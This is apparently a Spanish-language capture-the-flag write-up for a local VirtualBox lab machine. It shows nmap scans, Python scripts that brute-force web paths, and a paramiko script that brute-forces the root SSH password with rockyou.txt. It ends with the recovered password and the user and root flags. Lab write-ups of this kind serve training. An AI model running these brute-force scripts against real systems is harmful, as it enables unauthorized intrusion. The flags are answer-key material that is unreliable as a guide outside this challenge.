 Buscamos puertos tcp activos.

sudo nmap -sS -sV -O -p- 192.168.56.102 -oN tcp                                                                                                               
Starting Nmap 7.93 ( https://nmap.org ) at 2022-12-05 15:24 -05
Nmap scan report for 192.168.56.102
Host is up (0.00075s latency).
Not shown: 65533 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.3 (protocol 2.0)
80/tcp open  http    nginx
MAC Address: 08:00:27:E5:E3:8F (Oracle VirtualBox virtual NIC)
Device type: general purpose
Running: Linux 4.X|5.X
OS CPE: cpe:/o:linux:linux_kernel:4 cpe:/o:linux:linux_kernel:5
OS details: Linux 4.15 - 5.6
Network Distance: 1 hop


Buscamos puertos Udp activos

sudo nmap -sUV -T4 -F --version-intensity 0 192.168.56.102 -oN udp                                                                                  
Starting Nmap 7.93 ( https://nmap.org ) at 2022-12-05 15:27 -05
Nmap scan report for 192.168.56.102
Host is up (0.00067s latency).
All 100 scanned ports on 192.168.56.102 are in ignored states.
Not shown: 59 open|filtered udp ports (no-response), 41 closed udp ports (port-unreach)
MAC Address: 08:00:27:E5:E3:8F (Oracle VirtualBox virtual NIC)


Tenemos los puertos 22 y 80 activos.

Usamos Curl...
curl -v http://192.168.56.

* Trying 192.168.56.102:80...
* Connected to 192.168.56.102 (192.168.56.102) port 80 (#0)
> GET / HTTP/1.1
> Host: 192.168.56.102
> User-Agent: curl/7.86.0
> Accept: */*
> 
* Mark bundle as not supporting multiuse
< HTTP/1.1 200 OK
< Server: nginx
< Date: Mon, 05 Dec 2022 20:30:15 GMT
< Content-Type: text/html
< Content-Length: 57
< Last-Modified: Sun, 20 Sep 2020 16:29:39 GMT
< Connection: keep-alive
< ETag: "5f678373-39"
< Accept-Ranges: bytes
< 

Dont Overthink. Really, Its simple.
        <!-- Trust me -->

El Html nos dice poco excepto que no sobre-pensemos la solución.

Buscamos directorios mediante fuerza bruta con Python y requests.

```python
import requests

ip = 'http://192.168.56.102/'
payload = '/usr/share/seclists/Discovery/Web-Content/directory-list-lowercase-2.3-medium.txt'

with open(payload, 'r') as file:
    for string in file:
        url = ip + string[:-1]
        if "#" in url:
            continue
        response = requests.get(url)
        if response.status_code == 200:
            print(f'[+] {url}  status-code [{response.status_code}]')
```
Salida:
[+] http://192.168.56.102/  status-code [200]

No encontramos ningún directorio sospechoso y procedemos a buscar archivos mediante el uso de la misma tecnica.
```python
import requests

ip = 'http://192.168.56.102/'
payload = '/usr/share/seclists/Discovery/Web-Content/directory-list-lowercase-2.3-medium.txt'

with open(payload, 'r') as file:
    for string in file:
        list = ['.html', '.txt', '.php', '.bak', '.jpeg', '.zip', '.sql'] # Extensiones que buscara.
        for item in list:
            url = ip + string[:-1] + item
            if "#" in url:
                continue
            response = requests.get(url)
            if response.status_code == 200:
                print(f'[+] {url}  status-code [{response.status_code}]')
```
Salida:
[+] http://192.168.56.102/index.html  status-code [200]

Solo encontramos un archivo.


Pasamos a revisar SSH tratando de conectar como 'root' usando paramiko y rockyou.txt
```python
import paramiko

server = '192.168.56.102'
username = 'root'
file = '/home/../../rockyou.txt'

with open(file, 'r') as payloads:
    for payload in payloads:
        try:
            ssh = paramiko.SSHClient()
            ssh.set_missing_host_key_policy(paramiko.AutoAddPolicy())
            ssh.connect(server, username=username, password=payload[:-1])
            print(f'[+] {username}: {payload}')
            ssh.close()
            break
        except paramiko.ssh_exception.AuthenticationException as err:
            print(f'[-] {username}: {payload[:-1]}')
            ssh.close()
```
Salida:
.
.
.
.
[-] root: fernanda
[-] root: westlife
[-] root: blondie
[-] root: sasuke
[-] root: smiley
[-] root: jackson
[+] root: simple

El password es 'simple' para el usuario 'root'

id:uid=0(root) gid=0(root) groups=0(root),0(root),1(bin),2(daemon),3(sys),4(adm),6(disk),10(wheel),11(floppy),20(dialout),26(tape),27(video) 
Flag user:HMV665sXzDS
Flag root:HMVtyr543FG
